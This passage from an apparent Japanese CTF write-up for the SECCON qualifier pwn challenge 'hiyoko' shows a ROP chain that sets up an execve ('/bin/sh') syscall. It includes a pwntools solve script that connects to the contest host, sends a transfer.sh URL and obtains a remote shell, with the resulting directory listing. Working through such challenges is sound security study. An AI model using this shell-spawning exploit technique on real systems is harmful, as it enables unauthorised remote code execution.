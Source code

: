 ```python
    a1[18+2] = rsi
    a1[18+3] = a1_header
    a1[18+4] = rdx
    a1[18+5] = 8
    a1[18+6] = rax
    a1[18+7] = 0
    a1[18+8] = syscall
    a1[18+9] = rdi
    a1[18+10] = a1_header
    a1[18+11] = rsi
    a1[18+12] = 0
    a1[18+13] = rdx
    a1[18+14] = 0
    a1[18+15] = rax
    a1[18+16] = 0x3b
    a1[18+17] = syscall    
    a1[18+18] = 0xdead

```

あとはシンプルなスクリプトを書いて、完了です。

```python
$ cat solve.py 
from pwn import *

TARGET = './generated.elf'
HOST = 'hiyoko.quals.seccon.jp'
PORT = 9064

def start():
        if not args.R:
                return process(TARGET)
        else:
                return remote(HOST, PORT)

r = start()
if args.R:
        r.sendlineafter(': ', 'https://transfer.sh/rD6s1Y/test.txt')
r.send('/bin/sh\x00')

r.interactive()
r.close()
```

```
$ python solve.py R
[+] Opening connection to hiyoko.quals.seccon.jp on port 9064: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
```